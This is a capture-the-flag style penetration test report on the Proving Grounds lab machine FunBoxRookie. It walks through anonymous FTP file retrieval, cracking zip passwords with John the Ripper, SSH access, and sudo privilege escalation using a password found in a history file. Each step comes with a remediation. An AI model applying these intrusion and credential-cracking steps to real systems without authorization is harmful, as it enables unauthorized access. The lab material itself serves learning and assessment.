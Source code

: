 # Penetration Test Report for Proving Grounds - FunBoxRookie
- **Author:** Joey Melo
- **Date:** March 18, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.99.107 (FunBoxRookie)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized networks is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the FunBoxRookie network. The tester is tasked with following methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the FunBoxRookie network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the FunBoxRookie network. When performing the attacks, the tester was able to gain access to the machine, primarily due to FTP misconfigurations and weak password policy. The host has been sucessfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 21, 22, 80
### FTP Enumeration
Upon manual enumeration of the available FTP service, the tester noticed it had anonymous access enabled which allowed the tester to read all files in the FTP folder.
The content comprised of multiple password-protected zip files and an encoded message from admin informing that these files contain ssh keys.

![Directory listing of the FTP server](https://i.imgur.com/2tPQEWh.png)

## Initial Access
### Vulnerability Explanation
The FTP server allows anonymous access to sensitive files. Although these files are encrypted with password protection, the passwords used are weak and can be guessed with a simple word list. 
### Vulnerability Fix
Disable anonymous access to the FTP server and enforce a stronger password policy in the files. The tester recommends changing the files passwords immediately.
### Attack Walkthrough
Initial access was obtained to the FTP server with anonymous credentials and all files were transfer to the tester's machine.
```bash
ftp anonymous@192.168.99.107
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
```
The tester was able to decode the *.@admin* message and read its contents, which revealed that the zip files contain keys to the SSH server.
```bash
cat .@admins | base64 -d
```
![Contents of .@admins file](https://i.imgur.com/k5ytUEx.png)

Then, using a simple wordlist, two passwords were cracked. The zip files were extracted and they contained an access key to the SSH server. The tester decided to connect to the *tom* user.
```bash
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire
ssh -i id_rsa tom@192.168.99.107 
```
![Initial access via SSH](https://i.imgur.com/6QtQwpJ.png)

As proof of exploitation, the tester captured the *local.txt* flag.

![Redacted user flag](https://i.imgur.com/uAgrFkL.png)

## Privilege Escalation
### Vulnerability Explanation
After establishing a foothold on the tagert, the tester noticed that the compromised user (*tom*) was a member of the *sudo* group, which allows him to execute commands with high privileges.
The tester also notice a *.mysql_history* file in the user's home directory, which contained a password. 
### Vulnerability Fix
Unless the *tom* user needs to execute privileged commands, remove him from the *sudo* group or limit its access to only specific applications. Morever, the tester recommends either not storing plaintext passwords in history files or backing up and cleaning these files frequently to avoid leaking sensitive information.
### Attack Walkthrough
A simple user and directory enumeration revealed that *tom* is a member of the *sudo* group, and his home directory contains the *.mysql_history* file.
```bash
id
ls -la
cat .mysql_history
```
![Password on .mysql_history](https://i.imgur.com/28yTcb9.png)

The tester then successfully reused the captured password to execute high-privileged commands and obtain a *root* shell.
```bash
sudo su
```
![Redacted root flag](https://i.imgur.com/1p3so0y.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.99.107

# Get FTP files
ftp anonymous@192.168.99.107 # blank password
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
cat .@admins | base64 -d

# Crack zip files
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire

# Initial access
ssh -i id_rsa tom@192.168.99.107 
pwd; id; cat local.txt; ifconfig

# Privilege escalation
ls -la
cat .mysql_history # pwd=xx11yy22!
sudo su
cd /root
pwd; id; cat proof.txt; ifconfig
```
